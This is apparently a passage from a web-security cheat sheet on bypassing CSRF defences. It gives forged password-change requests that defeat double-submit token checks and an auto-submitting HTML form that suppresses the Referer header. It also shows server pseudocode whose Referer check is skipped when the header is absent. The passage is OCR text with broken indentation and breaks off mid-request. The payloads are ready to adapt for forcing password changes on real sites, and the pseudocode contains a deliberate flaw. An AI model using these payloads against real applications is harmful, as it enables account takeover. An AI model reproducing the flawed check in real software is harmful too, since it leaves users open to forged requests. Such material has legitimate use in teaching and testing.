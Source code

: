     - **Bypass Double submit CSRF tokens**
        
        ```python
        # Valid 
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        --------------------------
        # Invalid
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        ---------------------------------------
        # Bypass 
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
        (POST request body)
        new_password=abc123&csrf_token=not_a_real_token
        ```
        
    - **Bypass CSRF Referer Header Check**
        
        ```python
        # Just Remove The referrer
        <html>
         <meta name="referrer" content="no-referrer">
         <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type='submit' value="Submit">
         </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------
        # Expected Code
        def validate_referer():
         if (request.referer in allowlisted_domains):
        pass
         else:
         throw_error("Referer incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
         if request.referer:
         validate_referer()
         execute_action()
        ---------------------------
        # another way
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE;